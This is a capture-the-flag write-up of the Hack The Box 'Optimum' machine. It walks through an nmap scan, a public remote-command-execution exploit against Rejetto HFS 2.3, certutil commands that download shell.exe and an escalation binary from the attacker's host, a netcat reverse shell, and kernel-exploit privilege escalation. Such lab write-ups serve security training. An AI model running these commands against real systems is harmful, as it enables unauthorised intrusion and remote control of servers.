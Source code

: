 ```yaml
---
title: Writeup - HTB Optimum
date: 2023-11-13
author: kei5uke
description: Writeup for HTB Optimum
tags:
  - windows
  - writeup
---
```


# Optimum

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/optimum]
└─# nmap -sV -sC -T4 -p- 10.129.148.144 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 21:25 EET
Nmap scan report for 10.129.148.144
Host is up (0.039s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

# Getting shell

Found interesting exploit.

[Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)](https://www.exploit-db.com/exploits/49125)

I run the command below and got first shell.

```bash
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "certutil.exe -urlcache -split -f "http://10.10.16.23/shell.exe""
http://10.129.148.144:80/?search=%00{.+exec|certutil.exe%20-urlcache%20-split%20-f%20http%3A//10.10.16.23/shell.exe.}
                                                                                                                              
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "shell.exe"                            
http://10.129.148.144:80/?search=%00{.+exec|shell.exe.}
```

```bash
┌──(root💀kali)-[~/optimum]
└─# rlwrap nc -lvnp 21
listening on [any] 21 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.148.144] 49174
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

# Privilege Escalation

Windows Exploit suggester suggests using this exploit:

```bash
┌──(root💀kali)-[/opt/Windows-Exploit-Suggester]
└─# python windows-exploit-suggester.py -i sysinfo.txt -d 2023-11-13-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
```

[Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020)

```bash
C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe" 
certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe"
```

Installed the binary and got the root shell

![Screenshot 2023-11-13 at 23.17.22.png](Optimum%20a5bef01909654b14ba6fed4ab7784336/Screenshot_2023-11-13_at_23.17.22.png)

# Note

Windows exploit suggester is useful 🙂
